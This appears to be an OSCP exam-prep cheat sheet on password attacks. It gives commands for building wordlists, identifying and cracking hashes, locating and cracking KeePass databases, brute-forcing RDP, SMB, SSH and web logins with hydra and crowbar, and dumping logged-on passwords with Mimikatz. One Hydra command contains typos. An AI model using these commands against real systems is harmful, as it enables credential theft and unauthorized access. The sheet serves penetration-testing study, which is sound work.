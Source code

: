 # OSCP Password Attacks Checklist

## Introduction

## Table of Contents

- [OSCP Password Attacks Checklist](#oscp-password-attacks-checklist)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [Generate World list](#generate-world-list)
    - [Rules](#rules)
  - [Cracking Password](#cracking-password)
    - [Identifying Hash Type](#identifying-hash-type)
    - [Hashing different file types for cracking with 2john](#hashing-different-file-types-for-cracking-with-2john)
  - [Brute Force Attacks](#brute-force-attacks)
    - [Password Manager](#password-manager)
    - [Hydra](#hydra)
    - [RDP - Crowbar](#rdp---crowbar)
    - [SMB - Hydra](#smb---hydra)
    - [SSH - Hydra](#ssh---hydra)
    - [HTTP POST Login Form - Hydra](#http-post-login-form---hydra)
    - [HTTP GET Login Form - Hydra](#http-get-login-form---hydra)
  - [Mimikatz usage](#mimikatz-usage)

## Generate World list

Generating wordlist based on information from a website
```
cewl <domain> -w wordlist.txt
```

Using Crunch:
`@ = Lower case alpha characters`  
`, = Upper case alpha characters`  
`% = Numeric characters`  
`^ = Special characters including space`

crunch min-len max-len charset
```
crunch 4 6 0123456789abcdef -o wordlist.txt
```

### Rules
Add the rules you want in the /etc/john/john.conf file inside the rules module [List.Rules:Wordlist] to modify your wordlists  
basic rule example `$@$[1-2]$[0-9]$[0-9]$[0-9]`
```
john --wordlist=wordlist.txt --rules --stdout > mutated.txt
```

## Cracking Password

### Identifying Hash Type

```sh
hashid <hash>
```

### Hashing different file types for cracking with 2john
- [ssh2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/ssh2john.c)  
- [rar2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/rar2john.c)  
- [zip2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/zip2john.c)  
- [keepass2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keepass2john.c)  
- [office2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/office2john.c)  
- [pdf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pdf2john.c)  
- [pwsafe2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/pwsafe2john.c)  
- [racf2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/racf2john.c)  
- [vncpcap2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/vncpcap2john.cpp)  
- [hccap2jjohn](https://github.com/piyushcse29/john-the-ripper/blob/master/src/hccap2john.c)  
- [keychain2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/keychain2john.c)  
- [mozilla2john](https://github.com/piyushcse29/john-the-ripper/blob/master/src/mozilla2john.c) 


## Brute Force Attacks
### Password Manager
  Search KeePass database files
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

  Hashing the .kdbx file
```
keepass2john Database.kdbx > keepass.hash   
```

  Finding Hash-Mode ID of hashcat
```
hashcat --help | grep -i "KeePass"
```

  Cracking
```
hashcat -m 13400 keepass.hash
```

### Hydra
```
hydra -L /usr/share/wordlists/rockyou.txt t -p "<password" rdp://<IP>
```

### RDP - Crowbar
```
crowbar -b rdp -s X.X.X.X/32 -u admin -C /usr/share/wordlists/rockyou.txt -n 1
```

### SMB - Hydra
```
hydra -L /root/Desktop/user.txt -P /usr/share/wordlists/rockyou.txt <IP> smb
```

### SSH - Hydra
```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<IP>
```

### HTTP POST Login Form - Hydra
```
hydra -l <user> -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:user=admin&pass=^PASS^:Invalid Login" -vV -f
```

### HTTP GET Login Form - Hydra
```
hydra -l <username> -P /usr/share/wordlists/rockyou.txt -f <IP> http-get /login
```

## Mimikatz usage

Display logged on users passowrds
```
sekurlsa::logonpasswords
```